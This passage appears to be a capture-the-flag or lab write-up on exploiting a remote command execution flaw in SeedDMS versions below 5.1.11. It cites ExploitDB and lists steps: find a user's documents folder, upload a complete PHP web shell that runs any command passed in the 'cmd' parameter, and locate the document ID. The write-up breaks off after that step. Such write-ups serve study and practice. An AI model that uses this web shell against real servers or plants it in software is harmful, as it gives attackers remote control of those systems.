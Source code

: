 
## SeedDMS RCE

SeedDMS versions < 5.1.11 - Remote Command Execution from [ExploitDB](https://www.exploit-db.com/exploits/47022)

__First,__ find Michelle documents folder

![](screenshots/Michelle-folder.png)

__Second,__ Upload php web shell
```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

* find document ID

  ![](screenshots/document-id.png)
